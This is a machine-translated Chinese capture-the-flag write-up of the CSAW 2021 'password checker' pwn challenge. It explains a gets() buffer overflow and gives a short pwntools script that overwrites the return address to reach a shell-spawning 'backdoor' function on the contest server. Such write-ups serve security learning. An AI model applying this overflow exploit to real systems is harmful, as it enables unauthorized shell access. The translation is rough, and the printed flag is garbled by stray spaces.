









# 密码检查 CSAW CTF 2021 写

> 原文：<https://infosecwriteups.com/password-checker-csaw-ctf-2021-write-up-8949dd62c948?source=collection_archive---------4----------------------->



这是二进制剥削的热身挑战。

可下载的文件是未剥离的 64 位二进制文件。



使用 **checksec** 我们可以分析二进制文件。



使文件可写后，我们可以执行它。



我们必须输入正确的密码才能进去。我第一次试着叫“查理”,但运气不好。

然后，我尝试了“密码”，它的工作，但没有任何标志的迹象。



所以我们必须检查二进制文件是如何工作的。

我用 **Ghidra** 打开二进制文件并分析函数。

在分析函数时，main 函数调用一个名为 password_checker 的函数。



正在进行字符串比较，这就是“密码”被接受的原因。但是这个程序有一个易受攻击的函数，就是 gets()。

当我们打开 gets()手册页时，它警告我们不要使用这个函数，因为 gets()将存储超过缓冲区分配的字符，这将导致**缓冲区溢出**漏洞。



把它作为一个优势，我们可以打破二进制文件，以达到标志。

我再次分析了这些函数，发现一个名为“后门”的函数很可疑。



后门函数包含一个直接打开外壳的系统调用函数。这个外壳会带我们找到服务器。

我使用了 **pwntools** 并创建了一个 python 代码来传递缓冲区并返回后门函数。

```
 from pwn import *                                               
elf = ELF("./password_checker")                       
p = remote("pwn.chal.csaw.io",5000)                       
rop = ROP(elf)                       
ret = rop.find_gadget(["ret"]).address                       p.sendline(b"A"*72 + p64(ret) + p64(elf.sym["backdoor"]))                                               p.interactive()
```

通过运行这段 python 代码，我获得了挑战的旗帜！

**flag { CH4 R1 i3 _ 4 PPR 3c i4 t 35 _ y0u _ f0r _ y0ur _ h31p }**